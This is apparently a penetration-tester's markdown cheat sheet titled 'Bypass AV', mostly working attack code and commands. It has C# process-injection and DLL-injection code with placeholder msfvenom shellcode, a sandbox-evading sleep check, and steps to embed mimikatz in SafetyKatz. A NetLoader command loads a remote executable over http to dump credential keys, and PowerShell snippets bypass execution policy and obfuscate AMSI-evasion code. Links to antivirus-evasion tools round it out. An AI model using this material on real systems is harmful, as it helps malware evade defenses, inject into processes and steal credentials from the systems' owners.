 ```yaml
---
layout: app
title: "Bypass AV"
tags: ["bypass","evassion", "av", "DefenderCheck", "Netloader","obfuscate"]

---
```

# C#


```cs
 [DllImport("kernel32.dll", ExactSpelling = true, SetLastError = true)]
 [DefaultDllImportSearchPaths(DllImportSearchPath.System32)]
 public static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

 [DllImport("kernel32.dll")]
 public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

 [DllImport("kernel32.dll")]
 public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

 [DllImport("kernel32.dll")]
 public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

 [DllImport("kernel32.dll")]
 public static extern IntPtr GetProcAddress(IntPtr module, string processName);

 [DllImport("kernel32.dll")]
 public static extern IntPtr GetModuleHandle(string lpModuleName);

 [DllImport("kernel32.dll")]
 public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

 [DllImport("kernel32.dll")]
 public static extern void Sleep(uint dwMilliseconds);

    
const uint PROCESS_ALL_ACCESS = 0x001F0FFF;
const uint MEM_COMMIT=0x1000;
const uint MEM_RESERVE=0x3000;
const uint PAGE_EXECUTE_READWRITE=0x40;
```

## Process Injection

```cs
static void Main(string[] args){


    IntPtr hProcess = OpenProcess(0x001F0FFF, false, <ProcessId>);

    IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, MEM_COMMIT, MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    //SHELL Code 
    // msfvenom -p /windows/x64/exec CMD=calc.exe -f csharp
    byte[] buf = new byte[626] { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc...}

    IntPtr outSize;
    WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

    IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
}
```

## DLL Injection

```cs

// Example: msfvenom -p windows/x64/exec CMD=calc.exe -f dll -o DLL_PATH

string dllName = "DLL_PATH";


Process[] expProc = Process.GetProcessesByName("notepad");
int pid = expProc[0].Id;

IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
IntPtr outSize;
Boolean res = WriteProcessMemory(hProcess, addr,
Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"),
"LoadLibraryA");
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib,
addr, 0, IntPtr.Zero);

```

## Reflective DLL Injection



## SLEEP Timer

```cs
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);


[DllImport("kernel32.dll")]
public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

[DllImport("kernel32.dll")]
public static extern UInt32 Sleep(uint dwMilliseconds);

  DateTime t1 = DateTime.Now;
  Sleep(2000);
  double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
  if (t2 < 1.5)
  {
      return;
  }
```

# Nimcrypt2

[https://github.com/icyguider/Nimcrypt2](https://github.com/icyguider/Nimcrypt2)

# ProtectMyTooling

https://github.com/mgeeky/ProtectMyTooling

# CsWhispers

[https://github.com/rasta-mouse/CsWhispers](https://github.com/rasta-mouse/CsWhispers)

# chimera

[https://github.com/tokyoneon/chimera](https://github.com/tokyoneon/chimera)

# DefenderCheck

DefenderCheck It's to be used to detect all bytecode that could be detected by AV.
              
[https://github.com/matterpreter/DefenderCheck](https://github.com/matterpreter/DefenderCheck)

[Out-CompressedDll](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)

# AV Bypass

## BetterSafetyKatz
1. Download the latest releafe of mimikatz_trunk.zip
2. Convert file to base64


```powershell
$filename = "c:\temp\mimikatz_trunk.zip"
[Convert]::TOBase64String([IO.File]::ReadAllBytes($filename)) | clip
```
3. Modify [SafetyKatz](https://github.com/Flangvik/BetterSafetyKatz/blob/master/SafetyKatz/Program.cs) with above value

## Netloader

[https://github.com/Flangvik/NetLoader](https://github.com/Flangvik/NetLoader)
[https://gist.github.com/Arno0x/2b223114a726be3c5e7a9cacd25053a2](https://gist.github.com/Arno0x/2b223114a726be3c5e7a9cacd25053a2)

### Example

```powershell
Loader.exe -path http://xxxxx.exe skurlsa:ekeys exit
```

## Invisi-Shell

Invisi-Shell bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies.
[https://github.com/OmerYa/Invisi-Shell](Invisi-Shell)

## AMSITrigger

To Scan custom script to avoid signature
https://github.com/RythmStick/AMSITrigger

## Invoke-Obfuscation

To Obfuscate the AMSI bypass
[https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

## Native

```powershell
powershell -ExecutionPolicy Bypass
powershell -c cmd
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass"
```

### Obfuscate Runtime Instructions

```powershell
$String="niamoDppA.metsyS"
$classrev = ([regex::Matches($String,'.','RightToLeft')]) | ForEach {$_.value} - join ''
$AppDomain = [Reflection.Assembly].Assembly.GetType("$classrev").GetProperty('CurrentDomain').GetValue($null, @())

```
